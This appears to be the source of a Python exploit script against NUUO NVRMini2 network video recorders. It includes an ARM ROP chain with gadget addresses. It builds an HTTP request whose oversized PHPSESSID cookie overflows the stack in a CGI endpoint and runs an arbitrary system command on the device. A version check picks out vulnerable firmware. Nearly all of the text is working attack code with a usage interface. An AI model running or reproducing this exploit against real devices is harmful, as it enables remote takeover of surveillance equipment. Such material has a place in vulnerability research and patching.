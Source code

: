 ```python 
# .text:000D0E38 1E FF 2F E1                 BX      LR
#
# address 2: 406037cc - load the system command into r0. Jump to system.
#
# .text:000F17CC 0D 00 A0 E1                 MOV     R0, SP
# .text:000F17D0 33 FF 2F E1                 BLX     R3
#
# [   address 1  ][       r0     ][      r1      ][      r2      ][  r3 system   ][      r11     ][  LR - addr2  ][ system command ]
# \x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40touch /tmp/lolwat
##
def stack_buffer_overflow(command, ip, port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print '[+] Executing %s on %s:%s...' % (command, ip, port)
    sock.connect((ip, int(port)))
    exec_request = ('GET /cgi-bin/cgi_system?cmd=portCheck HTTP/1.1\r\n' +
                    'Host: ' + ip + ':' + port + '\r\n' +
                    'Accept: */*\r\n' +
                    'Cookie: PHPSESSID=982e6c010064b3878a4b793bfab8d2d2' +
                    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDD' +
                    '\x34\x2e\x5e\x40\xaa\xaa\xaa\xaa\xbb\xbb\xbb\xbb\xcc\xcc\xcc\xcc\xfc\xbf\x54\x40\xee\xee\xee\xee\xcc\x37\x60\x40' + command +
                    '\r\n\r\n')
    sock.sendall(exec_request)
    data = sock.recv(1024)
    sock.close()

    # We should get a 500 Internal error in response
    return data.find('500') != -1

##
# Quickly tries to grab the version of the target. If the target is
# using anything other than 3.7 or 3.8 then we'll bail out since
# haven't tested on any other targets
##
def check_target(ip, port):
    index = requests.get('http://' + ip + ':' + port + "/upgrade_handle.php?cmd=getcurrentinfo")
    return (index.text.find('<Titan>03.08') != -1 or index.text.find('<Titan>03.07') != -1)

if __name__ == "__main__":

    if (len(sys.argv) != 3):
        print "Usage: python nvrmini2_enable_telnet.py <ipv4 address> <port>"
        sys.exit(1)

    ip = sys.argv[1]
    port = sys.argv[2]

    if int(port) > 65535:
        print('[-] Invalid port parameter')
        sys.exit(0)

    if len(ip.split('.')) != 4:
        print('[-] Invalid IP address parameter')
        sys.exit(0)

    print '[+] Checking for a valid target...'
    if (check_target(ip, port) == False):
        print('[-] The target is not a NVRMini2 or its using an untested version.')
        sys.exit(0)
    print '[+] Valid target!'
```